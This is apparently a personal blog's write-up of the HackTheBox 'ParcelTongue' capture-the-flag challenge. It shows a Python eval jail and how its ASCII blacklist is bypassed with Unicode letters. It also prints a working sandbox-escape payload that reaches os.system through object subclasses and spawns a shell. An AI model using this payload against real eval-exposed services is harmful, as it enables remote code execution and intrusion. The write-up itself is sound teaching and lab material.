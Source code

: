 ```yaml
---
title: "HackTheBox ParcelTongue Misc Write up"
date: 2022-09-18T15:19:56+01:00
draft: false
toc: false
images:
tags:
  - ctf
  - python
  - writeup
---
```

This is a write up for the WSI UK CTF challenge ParcelTongue in the Misc challenge. This challenge involves a server that is hosting a PyJail netcat connection. Included in the challenge is the source code for the Python program seen below:

```python
#!/usr/bin/env python3
import string
blacklist = string.ascii_letters + '"\''

payload = input("𝒲𝒽𝒶𝓉 𝓌𝑜𝓊𝓁𝒹 𝓎𝑜𝓊 𝓁𝒾𝓀𝑒 𝓂𝑒 𝓉𝑜 𝒹𝑜? ")
if any(filter(lambda c: c in blacklist, payload)):
    print("𝐼 𝒹𝑜𝓃'𝓉 𝓊𝓃𝒹𝑒𝓇𝓈𝓉𝒶𝓃𝒹 𝓌𝒽𝒶𝓉 𝓎𝑜𝓊 𝓂𝑒𝒶𝓃")
else:
    eval(payload)
```

Upon connecting to the netcat server. You give an input to the server which is then evaluated. However, as seen in the source code. All ascii letters and important punctuation is blacklisted. This is usually the base for PyJail challenges, however it has added difficulty by blocking all ascii text. This means that we cannot use even the most basic python functions.

### Enumeration

The first stage of solving this challenge is attempting to enumerate what can and cannot give as an input to the program. The goal being, to find a way to import ```os.system``` or similar python modules. 

The first thing I decided to investigate was specifically what the blacklist contains. This was done by just calling ascii_letters in python. From this output, I now now know the blacklist was upper and lowercase ascii, `"` and `'`.
```python
import string
print(string.ascii_letters)
>>> abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
```

After a few minutes of messing with the program to no avail, I noticed that the program unusually used a hard-coded script font for printing text. Since there was no real reason for the program to use this I took it as a hint for the challenge. The script text used in the program is unicode, which can be read as python as legitimate text, but will not be included in the ascii_letters blacklist. 

Therefore, I went to [LingoJam]("https://lingojam.com/ItalicTextGenerator") to convert my normal ascii text some form of unicode. I first attempted printing an int as attempting to print a string would require using quotes, which don't convert to unicode. This was successful, and allowed to execute python code arbitrarily.

```python
𝒲𝒽𝒶𝓉 𝓌𝑜𝓊𝓁𝒹 𝓎𝑜𝓊 𝓁𝒾𝓀𝑒 𝓂𝑒 𝓉𝑜 𝒹𝑜? 𝘱𝘳𝘪𝘯𝘵(𝟣)
>>> 1
```

>_note, you can print strings by concatenating strings.ascii_letters function to spell out your string._ e.g.
```python
𝒲𝒽𝒶𝓉 𝓌𝑜𝓊𝓁𝒹 𝓎𝑜𝓊 𝓁𝒾𝓀𝑒 𝓂𝑒 𝓉𝑜 𝒹𝑜? 𝘱𝘳𝘪𝘯𝘵(𝘴𝘵𝘳𝘪𝘯𝘨.𝘢𝘴𝘤𝘪𝘪_𝘭𝘦𝘵𝘵𝘦𝘳𝘴[𝟩]+𝘴𝘵𝘳𝘪𝘯𝘨.𝘢𝘴𝘤𝘪𝘪_𝘭𝘦𝘵𝘵𝘦𝘳𝘴[𝟦]+𝘴𝘵𝘳𝘪𝘯𝘨.𝘢𝘴𝘤𝘪𝘪_𝘭𝘦𝘵𝘵𝘦𝘳𝘴[𝟣𝟣]+𝘴𝘵𝘳𝘪𝘯𝘨.𝘢𝘴𝘤𝘪𝘪_𝘭𝘦𝘵𝘵𝘦𝘳𝘴[𝟣𝟣]+𝘴𝘵𝘳𝘪𝘯𝘨.𝘢𝘴𝘤𝘪𝘪_𝘭𝘦𝘵𝘵𝘦𝘳𝘴[𝟣𝟦])
>>> hello
```

### Exploitation

The next step was to invoke os.system in order to get remote code execution. This can be done by chaining together class functions in order to invoke the module os. To do this you can call upon the `.__class__` attribute, this will will allow us to invoke a class through its attributes. Next you can invoke `.__base__`, which allows us to access the parent of a class. Finally, I can invoke `.__subclasses__`, which allows us to list all of the classes and attributes of a parent class.   

Combined together, this payload allows us to list, and invoke any class or module in the program. For this particular exploit you require `<class 'os._wrap_clas'>`. This was at position 137 for me. 
```python
().__class__.__base__.__subclasses__()[137]
>>> <class 'os._wrap_close'>
```
Next, I then needed to call the system function of the os module. This is done by availing of the `__global__` variable. This contains all functions in the global scope that have the same module as the provided scope. Therefore, if you use a module that exists in all scopes, like `.__init__`, you can call all functions and variables. Appending `.values()` means you can extract just the values from the `.__init__.__global__` functions returning dict. This `dict_values` can then be converted to a list by encasing it with `[*…]`, and iterated through to find the system function. This was at position 47 for me.
```python
[*().__class__.__base__.__subclasses__()[137].__init__.__globals__.values()][47]
>>> <built-in function system>
``` 

### Final payload
Now that I have found a way to call `os.system()`, I can now build a payload in order to gain shell access. The function os.system() requires input in the form of a string encased in quotes. However, as mentioned both single and double quotes are blacklisted.

This can be circumvented by using the same function from the script; `string.ascii_letters()`. If we call and concatenate `string.ascii_letters` for both letters **s** (18) and **h**, (7) we can invoke a shell through python. Once the payload is crafted, it can then be converted to a unicode text variant and input.

Doing so allowed me to gain a shell through the program and read flag.txt
```python
𝒲𝒽𝒶𝓉 𝓌𝑜𝓊𝓁𝒹 𝓎𝑜𝓊 𝓁𝒾𝓀𝑒 𝓂𝑒 𝓉𝑜 𝒹𝑜? [*().__𝒸𝓁𝒶𝓈𝓈__.__𝒷𝒶𝓈𝑒__.__𝓈𝓊𝒷𝒸𝓁𝒶𝓈𝓈𝑒𝓈__()[137].__𝒾𝓃𝒾𝓉__.__𝑔𝓁𝑜𝒷𝒶𝓁𝓈__.𝓋𝒶𝓁𝓊𝑒𝓈()][47](𝓈𝓉𝓇𝒾𝓃𝑔.𝒶𝓈𝒸𝒾𝒾_𝓁𝑒𝓉𝓉𝑒𝓇𝓈[18]+𝓈𝓉𝓇𝒾𝓃𝑔.𝒶𝓈𝒸𝒾𝒾_𝓁𝑒𝓉𝓉𝑒𝓇𝓈[7])
$ ls     
build-docker.sh  Dockerfile  flag.txt  server.py
$ cat flag.txt	
HTB{******************}
```